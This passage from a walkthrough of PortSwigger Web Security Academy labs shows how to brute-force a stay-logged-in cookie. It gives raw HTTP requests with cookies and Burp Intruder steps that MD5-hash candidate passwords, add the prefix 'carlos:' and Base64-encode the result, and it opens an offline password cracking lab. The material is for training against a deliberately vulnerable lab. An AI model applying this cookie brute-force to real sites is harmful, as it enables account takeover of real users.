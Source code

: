 So we can send a `/my-account` request in the repeater that has stayed logged in the cookie
```
GET /my-account HTTP/2
Host: 0af000f40304a988c0f63b730062009d.web-security-academy.net
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; session=toS4Z5rsESi7ZKxtQmHoyTssHJlHtzfF
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://0af000f40304a988c0f63b730062009d.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```


Send this request to the burp intruder and add the position to stay logged in the cookie. Now go to the Payloads section and use Simple List as the payload type and load the password list from the lab.

Click on the `Add` button from the `Payload Processing` section and follow the following things

- First, select the `Hash` rule with `MD5` as a hash
- Again click on the `Add` button and now select `Add prefix` Rule with `carlos:` as a prefix.
- Again click on the `Add` button for the last time and select `Encode` as a Rule and `Base64-encode` as an Encoding type.

Now start the attack all the incorrect requests should have a `3xx` status code response but the successful request has a `2xx` status code. using this you can brute force the carlos user to stay login cookie and access its account and solve the lab.

##### LAB #10: Offline password cracking

Lab URL: https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking

Given Credential: `wiener:peter`
Victim's Username: `carlos`

This lab has a login form in the `/login` endpoint with stay login functionality. The Post request with stay login looks like the following.

Request:
```
POST /login HTTP/2
Host: 0abe00ea03d0d4fcc0a9138a00f900f1.web-security-academy.net
Cookie: session=LcEKmOIIOyjgtKkrTb4V8hYEbc354rMc
...
[redacted]
...

username=wiener&password=peter&stay-logged-in=on
```

Response:
```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC
Set-Cookie: session=Iyhb1puWmA2h6KwmsMUW2R57fcZ2gLkk; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 
```
